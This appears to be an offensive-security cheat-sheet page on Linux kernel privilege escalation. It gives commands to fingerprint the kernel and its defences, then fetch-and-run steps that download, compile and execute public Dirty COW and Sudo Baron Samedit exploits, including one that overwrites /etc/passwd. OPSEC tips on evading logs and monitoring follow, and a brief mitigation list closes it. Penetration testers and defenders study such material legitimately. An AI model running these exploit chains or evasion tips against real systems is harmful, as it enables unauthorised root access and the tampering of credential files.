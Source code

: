 ::Topics:: privilege-escalation, linux, kernel-exploitation, defense-evasion

# Linux Kernel Exploitation

Linux kernel vulnerabilities can provide attackers with a pathway to escalate privileges from a standard user to root. Kernel exploits target flaws in the core operating system components, allowing them to bypass traditional security controls.

Vulnerability Identification – System Information Gathering:  
<pre><code class="bash"># Kernel version information
uname -a
cat /proc/version
cat /etc/issue

# Distribution-specific version information
lsb_release -a
cat /etc/*-release

# Installed kernel packages
rpm -qa | grep kernel    # For RPM-based systems
dpkg -l | grep linux-image    # For Debian-based systems
</code></pre>

Vulnerability Identification – Common Vulnerable Configurations:  
<pre><code class="bash"># Check for vulnerable kernel modules
lsmod

# Check for enabled security features
cat /boot/config-$(uname -r) | grep CONFIG_SECURITY
cat /boot/config-$(uname -r) | grep CONFIG_SECCOMP
cat /proc/cpuinfo | grep flags | grep -E 'smep|smap'

# Check for exploit mitigations
checksec --kernel
cat /proc/sys/kernel/unprivileged_bpf_disabled
cat /proc/sys/kernel/kexec_load_disabled
cat /proc/sys/kernel/dmesg_restrict
</code></pre>

Common Kernel Exploit Categories – Use-After-Free (UAF): Occurs when the kernel continues to use memory after it has been freed, allowing attackers to manipulate memory to execute arbitrary code.

Common Kernel Exploit Categories – Race Conditions: Timing vulnerabilities where the kernel makes incorrect assumptions about the state of resources during concurrent operations.

Common Kernel Exploit Categories – Memory Corruption: Vulnerabilities that allow attackers to write to arbitrary memory locations, potentially overwriting critical kernel data structures.

Common Kernel Exploit Categories – Integer Overflows/Underflows: Mathematical errors in kernel code that can lead to buffer overflows or other memory corruption issues.

Exploitation Process – Finding Suitable Exploits:  
<pre><code class="bash"># Search for kernel exploits based on version
searchsploit linux kernel $(uname -r)

# Check exploit-db
Exploit: https://www.exploit-db.com/exploits/[exploit-id]

# Check established repositories
git clone https://github.com/xairy/kernel-exploits
git clone https://github.com/SecWiki/linux-kernel-exploits
</code></pre>

Exploitation Process – Exploit Modification and Compilation:  
<pre><code class="bash"># Install development tools if needed
apt-get install -y build-essential libelf-dev linux-headers-$(uname -r)   # Debian/Ubuntu
yum groupinstall "Development Tools"   # CentOS/RHEL

# Compile the exploit
gcc -o exploit exploit.c

# For more complex exploits with a Makefile
make
</code></pre>

Exploitation Process – Common Exploit Examples – CVE-2016-5195 (Dirty COW):  
<pre><code class="bash"># Download the exploit
wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c

# Compile
gcc -pthread pokemon.c -o dirtycow

# Run the exploit
./dirtycow /etc/passwd 0
</code></pre>

Exploitation Process – Common Exploit Examples – CVE-2021-3156 (Sudo Baron Samedit):  
<pre><code class="bash"># Clone the repository
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156

# Compile and run
make
./sudo-hax-me-a-sandwich
</code></pre>

OPSEC Considerations: Kernel exploits can crash the system if they fail; failed exploitation attempts often leave traces in system logs; many kernel exploits require specific conditions to work correctly; successful exploits may trigger security monitoring tools that detect privilege escalation; consider using stable, well-tested exploits to minimize system impact.

Mitigation Strategies: Keep the kernel and system packages updated with security patches; enable kernel security features like SMEP, SMAP, and KASLR; configure SELinux or AppArmor to restrict process capabilities; implement proper user privilege separation; use secure boot mechanisms to validate kernel integrity; monitor for suspicious process activity and privilege escalation; implement robust system auditing and log analysis; apply the principle of least privilege for all user accounts.
